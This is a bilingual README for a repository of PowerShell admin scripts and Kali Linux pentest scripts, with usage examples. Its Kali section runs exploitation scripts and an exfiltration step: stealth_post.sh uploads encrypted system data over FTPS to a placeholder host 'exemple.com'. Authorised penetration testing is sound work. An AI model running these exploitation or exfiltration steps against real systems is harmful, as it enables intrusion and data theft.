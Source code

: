 # PowerShell Scripts Repository

Ce dépôt contient une collection de scripts PowerShell utiles pour l'administration système et l'automatisation de tâches courantes.

## 📂 Structure du dépôt

```
scripts/
├── linux/             # Scripts Bash pour Linux
│   ├── check_dependencies.sh
│   ├── setup_api.sh
│   ├── pentest_discovery.sh
│   ├── pentest_verification.sh
│   ├── pentest_exploitation.sh
│   ├── scan_wifi.sh
│   └── stealth_post.sh
├── powershell/        # Scripts PowerShell pour Windows
│   ├── DiskUsageReport.ps1
│   ├── Get-SystemInfo.ps1
│   ├── ManageServices.ps1
│   ├── VMManagement.ps1
│   ├── LinkCrawler.ps1
│   ├── TeamsManagement.ps1
│   ├── SharePointManagement.ps1
│   ├── UserManagement.ps1
│   └── SecurityCheck.ps1
├── sample_logs.json   # Journalisation fictive pour tests
```

Le fichier `targets.txt` à la racine contient la liste des cibles pour les scripts de pentest. Les scripts Bash utilisent un chemin relatif basé sur leur propre emplacement pour le retrouver, ce qui permet de les lancer depuis n'importe quel répertoire.

## 🛠️ Prérequis / Prerequisites

- **Outils / Tools** : `nmap`, `gvm-cli` et les modules PowerShell nécessaires (Hyper-V, ExchangeOnlineManagement, Teams, etc.).
- **Privilèges / Privileges** : certains scripts exigent des droits administrateur ou root.

## ⚙️ Utilisation rapide

Les scripts peuvent être lancés via PowerShell :

```powershell
# Exemple : afficher les informations système
.\scripts\powershell\Get-SystemInfo.ps1

# Exemple : vérifier l'état d'un service
.\scripts\powershell\ManageServices.ps1 -Action status -ServiceName spooler

# Exemple : lister les machines virtuelles Hyper-V
.\scripts\powershell\VMManagement.ps1 -Action list

# Exemple : démarrer une machine virtuelle
.\scripts\powershell\VMManagement.ps1 -Action start -VMName "TestVM"
# Exemple : lister les equipes Teams
.\scripts\powershell\TeamsManagement.ps1 -Action list
# Exemple : créer un canal Teams
.\scripts\powershell\TeamsManagement.ps1 -Action createchannel -TeamName "Marketing" -ChannelName "Général"
# Exemple : ajouter plusieurs membres depuis un CSV
.\scripts\powershell\TeamsManagement.ps1 -Action bulkadd -TeamName "Marketing" -CsvPath .\users.csv
# Exemple : lister les boîtes aux lettres Exchange Online
.\scripts\powershell\ExchangeOnlineManagement.ps1 -Action list
# Exemple : lister les sites SharePoint Online
.\scripts\powershell\SharePointManagement.ps1 -Mode Online -Action ListSites -Credential (Get-Credential)
# Exemple : créer un site SharePoint On-Premise
.\scripts\powershell\SharePointManagement.ps1 -Mode OnPrem -Action CreateSite -SiteUrl "http://spserver/sites/test" -Template STS#0 -Credential (Get-Credential)
# Exemple : vérifier les paramètres de sécurité
.\scripts\powershell\SecurityCheck.ps1
```
> **Note :** `ManageServices.ps1` et `UserManagement.ps1` doivent être exécutés dans une session PowerShell élevée.
> **Exemple :** cherchez "PowerShell" dans le menu Démarrer, faites un clic droit puis sélectionnez "Exécuter en tant qu'administrateur".

Chacun des scripts possède des paramètres décrits en début de fichier.

```bash
# Installation de l'API Mistral
# Le script télécharge install.sh séparément et vérifie son empreinte SHA-256
bash scripts/linux/setup_api.sh
# Activer l'environnement virtuel puis lancer l'API
source /opt/mistral-env/bin/activate
python ~/mistral_api.py
```

### Scripts Kali Linux

```bash

# Vérifier les dépendances nécessaires
bash scripts/linux/check_dependencies.sh

# Phase de découverte (scan complet et scripts de vulnérabilités)
bash scripts/linux/pentest_discovery.sh
# Phase de vérification des vulnérabilités
bash scripts/linux/pentest_verification.sh
# Phase d'exploitation (si autorisée)
bash scripts/linux/pentest_exploitation.sh
# Génère un fichier de suggestions avec searchsploit si des CVE ont été détectées
# Exfiltration basique via FTPS (si autorisée)
export FTP_USER="utilisateur"
export FTP_PASS="motdepasse"
export FTP_HOST="exemple.com"
export FTP_PATH="uploads/sysinfo.txt.gpg"
export GPG_PASSPHRASE="phrase_secrete"
bash scripts/linux/stealth_post.sh
```

### Configuration de l'hôte distant

- Serveur FTP avec prise en charge de FTPS (TLS explicite).
- Compte utilisateur autorisé à écrire dans le chemin indiqué par `$FTP_PATH`.
- Pour récupérer les données, télécharger le fichier chiffré puis le déchiffrer :
  `gpg --batch --passphrase "phrase_secrete" -o sysinfo.txt -d sysinfo.txt.gpg`.

Chaque exécution de `pentest_discovery.sh` crée un sous-dossier horodaté dans `pentest_results`, conservant les résultats des scans précédents.
Each run of `pentest_discovery.sh` outputs to a timestamped subfolder inside `pentest_results`, preserving previous scan results.

## ⚠️ Disclaimer / Avertissement

Pentest scripts (dont `pentest_discovery.sh`, `pentest_verification.sh`, `pentest_exploitation.sh`) et `stealth_post.sh` doivent être utilisés uniquement sur des systèmes pour lesquels vous disposez d'une autorisation explicite.

Pentest scripts and `stealth_post.sh` must only be run on systems where you have been granted explicit permission. Unauthorized use may be illegal.

## License

This project is licensed under the MIT License. See [LICENSE](LICENSE) for details.
